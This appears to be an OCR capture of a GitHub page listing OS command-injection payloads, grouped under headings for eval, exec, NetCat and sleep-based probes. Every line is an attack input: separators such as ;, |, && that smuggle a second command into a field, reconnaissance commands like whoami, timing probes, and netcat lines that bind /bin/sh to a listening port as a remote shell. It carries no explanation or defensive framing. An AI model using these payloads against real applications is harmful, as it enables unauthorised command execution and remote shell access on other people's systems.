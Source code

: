 ```
& dir C:\Users
&& dir C:\Users
dir C:\Users
```
**eval**
```
eval('ls')
eval('pwd')
eval('pwd');
eval('sleep 5')
eval('sleep 5');
eval('whoami')
eval('whoami');
```
**exec**
```
exec('ls')
exec('pwd')
exec('pwd');
exec('sleep 5')
exec('sleep 5');
exec('whoami')
exec('whoami');
```
**NetCat**
```
| nc -lvvp 4444 -e /bin/sh|
; nc -lvvp 4444 -e /bin/sh;
& nc -lvvp 4444 -e /bin/sh&
&& nc -lvvp 4444 -e /bin/sh &
nc -lvvp 4444 -e /bin/sh
nc -lvvp 4445 -e /bin/sh &
nc -lvvp 4446 -e /bin/sh|
nc -lvvp 4447 -e /bin/sh;
nc -lvvp 4448 -e /bin/sh&
```
**sleep based**
```
| sleep 1
; sleep 1
& sleep 1
&& sleep 1
sleep 1
|| sleep 10
| sleep 10
; sleep 10
{${sleep(10)}}
& sleep 10 
&& sleep 10
sleep 10
|| sleep 15
| sleep 15
; sleep 15
& sleep 15 
&& sleep 15
 {${sleep(20)}}
{${sleep(20)}}
 {${sleep(3)}}
{${sleep(3)}}
| sleep 5
; sleep 5
& sleep 5
&& sleep 5
sleep 5
```
